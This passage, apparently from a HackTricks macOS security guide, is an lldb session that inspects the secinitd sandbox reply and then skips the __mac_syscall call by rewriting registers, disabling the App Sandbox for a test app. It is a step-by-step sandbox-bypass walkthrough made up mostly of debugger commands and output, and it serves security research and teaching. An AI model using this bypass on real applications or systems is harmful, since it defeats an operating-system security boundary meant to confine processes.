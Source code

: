```bash
# Move until the end of the function
(lldb) finish

# Read the response
## Check the address of the sandbox container in SECINITD_REPLY_MESSAGE_CONTAINER_ROOT_PATH_KEY
(lldb) memory read -f p 0x000000016fdfd660 -c 1
0x16fdfd660: 0x0000600003d04000
(lldb) p (char *) xpc_copy_description(0x0000600003d04000)
(char *) $4 = 0x0000000100204280 "<dictionary: 0x600003d04000> { count = 7, transaction: 0, voucher = 0x0, contents =\n\t\"SECINITD_REPLY_MESSAGE_CONTAINER_ID_KEY\" => <string: 0x600000c04d50> { length = 22, contents = \"xyz.hacktricks.sandbox\" }\n\t\"SECINITD_REPLY_MESSAGE_QTN_PROC_FLAGS_KEY\" => <uint64: 0xaabe660cef067137>: 2\n\t\"SECINITD_REPLY_MESSAGE_CONTAINER_ROOT_PATH_KEY\" => <string: 0x600000c04e10> { length = 65, contents = \"/Users/carlospolop/Library/Containers/xyz.hacktricks.sandbox/Data\" }\n\t\"SECINITD_REPLY_MESSAGE_SANDBOX_PROFILE_DATA_KEY\" => <data: 0x600001704100>: { length = 19027 bytes, contents = 0x0000f000ba0100000000070000001e00350167034d03c203... }\n\t\"SECINITD_REPLY_MESSAGE_VERSION_NUMBER_KEY\" => <int64: 0xaa3e660cef06712f>: 1\n\t\"SECINITD_MESSAGE_TYPE_KEY\" => <uint64: 0xaabe660cef067137>: 2\n\t\"SECINITD_REPLY_FAILURE_CODE\" => <uint64: 0xaabe660cef067127>: 0\n}"

# To bypass the sandbox we need to skip the call to __mac_syscall
# Lets put a breakpoint in __mac_syscall when x1 is 0 (this is the code to enable the sandbox)
(lldb) breakpoint set --name __mac_syscall --condition '($x1 == 0)'
(lldb) c

# The 1 arg is the name of the policy, in this case "Sandbox"
(lldb) memory read -f s $x0
0x19300eb22: "Sandbox"

#
# BYPASS
#

# Due to the previous bp, the process will be stopped in:
Process 2517 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
    frame #0: 0x0000000187659900 libsystem_kernel.dylib`__mac_syscall
libsystem_kernel.dylib`:
->  0x187659900 <+0>:  mov    x16, #0x17d
    0x187659904 <+4>:  svc    #0x80
    0x187659908 <+8>:  b.lo   0x187659928               ; <+40>
    0x18765990c <+12>: pacibsp

# To bypass jump to the b.lo address modifying some registers first
(lldb) breakpoint delete 1 # Remove bp
(lldb) register write $pc 0x187659928 #b.lo address
(lldb) register write $x0 0x00
(lldb) register write $x1 0x00
(lldb) register write $x16 0x17d
(lldb) c
Process 2517 resuming
Sandbox Bypassed!
Process 2517 exited with status = 0 (0x00000000)
```
